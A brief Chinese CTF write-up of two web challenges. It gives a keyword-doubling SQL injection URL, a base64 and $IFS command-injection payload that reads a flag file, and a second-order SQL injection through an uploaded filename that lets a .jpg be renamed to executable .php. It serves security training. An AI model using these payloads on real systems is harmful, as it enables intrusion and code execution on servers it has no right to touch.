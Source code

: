 
***

#### 真的简单。。

`http://202.119.201.199:32793/list.php?id=-1' uniunionon seleselectct 1,2,(selselectect flag from flag)-- -`

获得flag in admin_08163314/exec.php     

后台命令执行：

```
`echo$IFS"Y2F0IC9mbGFnXzMzMTQvZmxhZw=="|base64$IFS-d`
```

***

#### 文件管理系统

源码泄露：www.zip

二次注入：

后台的建表语句为四个字段：

```sql
CREATE TABLE file(fid id()
                  filename xx
                  oldname xx
                  extension xx
                  )
```



上传文件名为：

`',extension='',filename='404.jpg.jpg`

upload.php上传时由于`addslashes`的原因单引号转义

插入表内的文件名：

filename = `',extension='',filename='404.jpg`

扩展名：

extension = `.jpg`

改名时的update语句为

```sql
update `file` set `filename`='404.jpg', `oldname`='',extension='',filename='404.jpg' where `fid`=x;

```

此时库中存在一个扩展名为空的记录

上传一个404.jpg

重命名为404.php

